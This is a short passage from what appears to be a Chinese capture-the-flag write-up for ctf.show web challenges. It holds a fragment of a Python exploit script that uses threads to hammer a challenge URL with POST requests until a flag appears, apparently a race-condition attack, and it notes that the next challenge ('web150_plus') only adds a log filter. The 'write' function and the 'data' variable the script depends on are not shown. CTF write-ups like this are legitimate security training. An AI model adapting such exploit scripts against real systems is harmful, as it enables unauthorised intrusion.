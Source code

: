 ```

def read(session):
    while event.isSet():
        res = session.post(
            'http://17787258-2baa-4fff-a0c2-75d262f85b01.challenge.ctf.show/?isVIP=1',
            data=data
        )
        if 'flag{' in res.text:
            print(res.text)
            event.clear()
        else:
            print('[*]retrying...')


if __name__ == "__main__":
    event = threading.Event()
    event.set()
    with requests.session() as session:
        for i in range(1, 5):
            threading.Thread(target=write, args=(session,)).start()

        for i in range(1, 5):
            threading.Thread(target=read, args=(session,)).start()

```

# web150_plus

只是多了一个log的过滤，同上

